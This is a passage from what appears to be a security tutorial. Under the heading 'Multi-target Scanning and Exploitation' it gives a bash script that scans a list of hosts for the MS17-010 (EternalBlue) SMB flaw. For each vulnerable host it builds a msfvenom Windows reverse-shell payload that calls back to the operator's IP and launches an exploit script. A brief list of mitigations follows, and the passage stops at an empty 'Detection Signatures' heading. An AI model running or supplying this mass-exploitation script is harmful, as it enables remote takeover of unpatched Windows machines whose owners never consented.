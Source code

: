 ## Advanced Practical Example

### Multi-target Scanning and Exploitation

```bash
#!/bin/bash
# multi_target_eternalblue.sh

TARGET_FILE="targets.txt"
RESULTS_FILE="vulnerable_hosts.txt"

# Scan multiple targets for vulnerability
echo "[*] Scanning targets for MS17-010 vulnerability..."
while read target; do
    echo "[*] Scanning $target"
    result=$(nmap -p 445 --script smb-vuln-ms17-010 $target | grep "VULNERABLE")

    if [[ ! -z "$result" ]]; then
        echo "[+] $target is VULNERABLE"
        echo $target >> $RESULTS_FILE
    else
        echo "[-] $target is not vulnerable"
    fi
done < $TARGET_FILE

# Exploit vulnerable hosts
echo "[*] Exploiting vulnerable hosts..."
while read vulnerable_host; do
    echo "[*] Attempting exploitation of $vulnerable_host"

    # Generate unique payload for each target
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=5555 -f raw -o /tmp/shellcode_$vulnerable_host.bin

    # Execute exploit
    python eternalblue_exploit7.py $vulnerable_host /tmp/shellcode_$vulnerable_host.bin &

done < $RESULTS_FILE
```

### Defensive Considerations

**Mitigation Strategies:**

1. Apply Microsoft security updates from March 2017 or later
2. Disable SMBv1 protocol
3. Implement network segmentation
4. Use host-based firewalls to restrict SMB traffic
5. Deploy intrusion detection systems monitoring for EternalBlue patterns

**Detection Signatures:**
